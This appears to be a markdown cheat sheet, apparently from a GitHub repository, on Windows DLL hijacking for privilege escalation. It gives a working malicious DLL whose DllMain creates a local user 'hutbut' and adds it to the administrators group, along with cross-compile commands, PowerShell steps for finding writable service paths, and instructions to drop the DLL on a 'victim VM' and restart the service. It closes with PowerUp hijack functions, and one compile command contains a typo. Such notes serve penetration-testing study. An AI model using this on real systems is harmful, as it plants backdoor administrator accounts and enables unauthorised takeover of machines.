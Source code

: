 # DLL-Hijacking
### Step-by-Step:
```cpp
#include <windows.h>
#include <stdlib.h>

BOOL APIENTRY DllMain(
	HANDLE hModule,
	DWORD ul_reason_for_call,
	LPVOID lpReserved)
{
	switch ( ul_reason_for_call ) {
	case DLL_PROCESS_ATTACH:
		int i;
		i = system("net user hutbut hutbut! /add");
		i = system("net localgroup administrators hutbut /add");
		break;
	case DLL_THREAD_ATTACH:
		break;
	case DLL_THREAD_DETACH:
		break;
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```

Compile using:
```bash
# cross compile regular code:
	x86_64-w64-mingw32-gcc name_of_prg.c -o name_of_binary.exe
	# turn the output into a dynamically linked loader (DLL):
	x86_64-w64-mong32-gcc name_of_prg.cpp --shared -o name_of_DLL.dll
```

#### Complete Process - Manual
Get a list of running services:
```PowerShell
Get-CimInstance -ClassName win32_service | Select Name, State, PathName | Where-Object {$_.State -like "Running"}
```

Then check the permissions for the path that the service is on:
```PowerShell
icacls ".\Path\To\The\Service.exe"
```

```
(I) - INHERITED PERMISSIONS
(F) - FULL PERMISSIONS
(R,W,X) - READ, WRITE & EXECUTE PERMISSIONS
```

You need access to `Procmon.exe` in order to check for the DLLs that are being loaded by the service binary.

The structure of the DLL is something like this:
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
	HANDLE hModule,
	DWORD ul_reason_for_call,
	LPVOID lpReserved) {
	
	switch ( ul_reason_for_call ) {
		case DLL_PROCESS_ATTACH:
			break;
		case DLL_THREAD_ATTACH:
			break;
		case DLL_THREAD_DETACH:
			break;
		case DLL_PROCESS_DETACH:
			break;
	}
	return TRUE;
}
```

Generally for running powershell commands using C++ the following syntax is used:
```cpp
#include <stdlib.h>

int main() {
	int i;
	i = system("net user USERNAME PASSWORD /add");
	i = system("net localgroup GROUPNAME USERNAME /add");
	return 0;
}
```

After compiling, send it to the hijack path on the victim VM and restart the service that uses the hijacked DLL:
```PowerShell
Restart-Service service_name;
# now check if the user has been created:
Get-LocalGroupMember Administrators;
```

#### Complete Process - PowerSploit (PowerUp.ps1)
Import the PowerUp script:
```PowerShell
. .\PowerUp.ps1;
# now run:
Invoke-AllChecks
```
This checks everything. It may also give you an `AbuseFunction`.
```PowerShell
# powerup modules
Find-ProcessDLLHijack
Find-PathDLLHijack
Write-HijackDLL
```